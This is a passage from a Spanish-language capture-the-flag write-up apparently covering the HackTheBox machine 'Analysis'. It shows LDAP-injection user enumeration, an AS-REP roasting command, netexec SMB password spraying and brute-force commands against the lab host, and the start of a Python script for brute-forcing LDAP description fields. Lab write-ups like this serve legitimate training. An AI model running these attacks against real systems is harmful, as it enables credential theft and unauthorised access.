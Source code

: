 Probaremos de ejeuctar el script realizado y comprobamos que nos ha enumerado los siguientes usuarios.

```bash
python3 ldap_injection.py
```

<figure><img src="../../../../../.gitbook/assets/1631_vmware_751sZy9ubU.png" alt="" width="500"><figcaption></figcaption></figure>

Estos usuarios los añadiremos a la lista de usuarios que ya disponemos, y como hay usuarios nuevos, intentaremos nuevamente de realizar un **AS-REP Roasting Attack**, sin éxito tampoco.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/ 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/1632_vmware_rmAYD3dKlB.png" alt="" width="477"><figcaption></figcaption></figure>

Probaremos de realizar un **password spraying** para ver si algún usuario utiiza su mismo nombre de usuario como contraseña. No obtenemos éxito.

{% code overflow="wrap" %}
```bash
netexec smb 10.10.11.250 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1634_vmware_ePCHtoHvpU.png" alt=""><figcaption></figcaption></figure>

Intentaremos de realizar un ataque de fuerza bruta para ver si algún usuario sus credenciales es el nombre de usuario de otros usuarios de la lista. Tampoco obtenemos éxito ninguno.

```bash
netexec smb 10.10.11.250 -u users.txt -p users.txt --continue-on-success
```

<figure><img src="../../../../../.gitbook/assets/1635_vmware_gLmZed1PjA.png" alt=""><figcaption></figcaption></figure>

### Enumerating user description through LDAP Injection + Information Leakage

Crearemos un nuevo script de Python, modificando el que ya tenemos para intentar enumerar otro atributo de LDAP como es el campo de "Description" para ver si algún usuario dispone de algúna informacion/contraseña en su usuario.

En este primer script, probaremos de ver si algunos de los usuarios que disponemos, tiene descripción. Cuando tengamos algún usuario que tenga descripción, enumeraremos a través de fuerza bruta el contenido de la descripción del usuario en LDAP.

```python
#!/usr/bin/env python3

import requests
import re
import signal
import pdb
import time
import sys

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

```